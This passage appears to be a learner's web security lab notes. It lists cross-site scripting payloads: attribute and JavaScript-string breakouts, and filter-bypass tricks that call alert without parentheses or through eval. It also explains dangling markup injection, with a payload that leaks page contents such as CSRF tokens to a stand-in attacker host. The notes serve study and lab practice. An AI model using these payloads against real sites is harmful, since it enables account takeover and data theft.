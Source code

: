 - see the labs from 11 - 14

### XSS in HTML tag attributes

- `" autofocus onfocus=alert(1) x="`
- `<a href="javascript:alert(1)">`

### XSS in JS bypass

- `';alert(1)//` - to break out of JS string
- `</script><script>alert(1)</script>` - if `'\` are filtered
- `\';alert(1)//` - if `'` is filtered
- `<script>onerror=alert;throw 1</script>` - execute without parentheses
- `<script>{onerror=alert}throw 1</script>` - without semicolon
- `<script>throw onerror=alert,'some string',123,'haha'</script>`
  - throw - create JS exception and accepts JS expression
  - onerror - allows to assign a function to JS error handler
  - alert - will be called when any new exeption is thrown
  - 'haha' - throw accepts an expression, the assignment to onerror happens before alert is called and the last part of the expression is sent to the exception handler
- `<script>{onerror=eval}throw'=alert\x281337\x29'</script>`
- `<script>{onerror=prompt}throw{lineNumber:1,columnNumber:1,fileName:'second argument',message:'first argument'}</script>`
- `<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>`
- `&apos;-alert(document.domain)-&apos;`

---

## Dangling markup injection

- technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible
- suppose an application embeds attacker-controllable data into its responses in an unsafe way

```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

- suppose it does not filter or escape the `>,"` characters
- attacker can use `">` to break out of the quoted attribute value and the enclosing tag and return to an HTML context
- suppose attacker can't perform regular XSS attack due to input filters, content security policy or other obstacles
- it is still be possible to deliver a dangling markup injection attack using payload like

```
"><img src='//attacker-website.com?
```

- note `src` attributes in the payload **doesn't close which is left "dangling"**
- when a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute
- everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string which can contain sensitive data such as CSRF tokens, email messages, financial data
-

---